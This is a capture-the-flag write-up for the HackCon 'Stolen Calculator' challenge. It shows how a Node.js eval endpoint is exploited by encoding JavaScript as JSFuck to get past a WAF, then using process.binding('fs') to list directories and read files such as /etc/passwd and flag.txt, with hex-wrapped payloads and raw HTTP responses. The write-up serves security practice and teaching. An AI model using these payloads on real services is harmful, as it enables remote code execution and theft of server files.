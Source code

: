 # Stolen Calculator - PWN (HackCon ctf)

Description: 
### I stole this calculator from someone and made some changes because I am the plagiarism god. Bow before me now. btw wanna try it: http://defcon.org.in:9080/ Hint: This is a pwn challenge

Here we have calculator:


![](http://s016.radikal.ru/i336/1708/c3/ba35c0dd3e53.png)

If we look at calculator source code, we will see hardcoded url : 
``` urll = "http://defcon.org.in:10300/" + encodeURIComponent( strrr ); ```
But this code will never run, because there was a mistake in js file. So lets try request  this url in burp:

![](http://s019.radikal.ru/i618/1708/32/98b0f49eb8f4.png)

If we try to ``` GET /1+1 ``` we will receive 
```HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 1
ETag: W/"1-2kuSN7rMzfGcB2DKt67EqDWQELA"
Date: Wed, 30 Aug 2017 11:03:43 GMT
Connection: close

2
```

If we request some string, we will get 
```HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 3
ETag: W/"3-6zXDIdaZfDRIgpYriqHNCTmxI+E"
Date: Wed, 30 Aug 2017 11:05:08 GMT
Connection: close

err 
```
We can notice that there is eval node.js on other side by sending ``` $ ```
```
HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Content-Security-Policy: default-src 'self'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 965
Date: Wed, 30 Aug 2017 11:06:21 GMT
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>ReferenceError: $ is not defined<br> &nbsp; &nbsp;at eval (eval at &lt;anonymous&gt; (/bf.js:21:17), &lt;anonymous&gt;:1:1)<br> &nbsp; &nbsp;at /bf.js:21:17<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at param (/node_modules/express/lib/router/index.js:354:14)<br> &nbsp; &nbsp;at param (/node_modules/express/lib/router/index.js:365:14)<br> &nbsp; &nbsp;at Function.process_params (/node_modules/express/lib/router/index.js:410:3)</pre>
</body>
</html>
```
So WAF is blocking any string we send, but if send ``` ({}) ``` we will receive 
``` HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 15
ETag: W/"f-wdRP8Dr/E3KFbCgYVPRU4uHRW3w"
Date: Wed, 30 Aug 2017 11:08:24 GMT
Connection: close

[object Object]
```
So lets try to use JSFuck to bypass this WAF. We can convert any javascript to JSFuck with help of http://www.jsfuck.com . If we send ``` return  process.argv ```
, in JSFuck it will look like ``` GET /[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]..... ``` and so on.
We will receive ``` /usr/local/bin/node,/bf.js ```. We have RCE. 

We cant send ```require``` because it is not defined. But we can use ``` process.binding ``` instead to read/write.
But we have strong restriction in node.js. We can send get request no larger than 80kb. And if we try to send ```buffer = Buffer.allocUnsafe(8192); process.binding('fs').read(process.binding('fs').open('/etc/passwd', 0, 0600), buffer, 0, 4096); return buffer ``` coverted to JSFuck , it will be 93369 bytes. I tried somehow to compress it, but length was still >85000.

The solution here is to use base64 or hex encode/decode and use ``` process.binding('fs').readdir('/')``` in js. Base64 will not work because there are a lot of letters in encoding , and they will be converted in larger pieces.
Convert ``` d=process.binding('fs').readdir('/etc/', 0, 0600);d; ``` to ascii hex. We will get ``` 643d70726f636573732e62696e64696e672827667327292e7265616464697228272f272c20302c2030363030293b643b```
Convert ``` var a = new Buffer("643d70726f636573732e62696e64696e672827667327292e7265616464697228272f272c20302c2030363030293b643b", "hex").toString();b = eval(a.toString()); return b``` to JSFuck and we will get 47651 chars. If we send them, we will get responce 

``` HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 152
ETag: W/"98-P8Y7q+l1+xsDl9SL2vRfvqsKG3o"
Date: Wed, 30 Aug 2017 11:33:54 GMT
Connection: close

.dockerenv,bf.js,bin,boot,dev,etc,flag.txt,home,lib,lib64,media,mnt,node_modules,opt,package-lock.json,proc,root,run,sbin,srv,startup.sh,sys,tmp,usr,var
```
Now we must read flag.txt using ```process.binding('fs').open('flag.txt', 0, 0600)```. 

## POC: 
```GET /JSFuckConvert(var a = new Buffer("627566666572203d204275666665722e616c6c6f63556e736166652838313932293b2070726f636573732e62696e64696e672827667327292e726561642870726f636573732e62696e64696e672827667327292e6f70656e2827666c61672e747874272c20302c2030363030292c206275666665722c20302c2034303936293b2020627566666572", "hex").toString();b = eval(a.toString()); return b)```

![](http://s019.radikal.ru/i642/1708/c5/27928aead910.png)
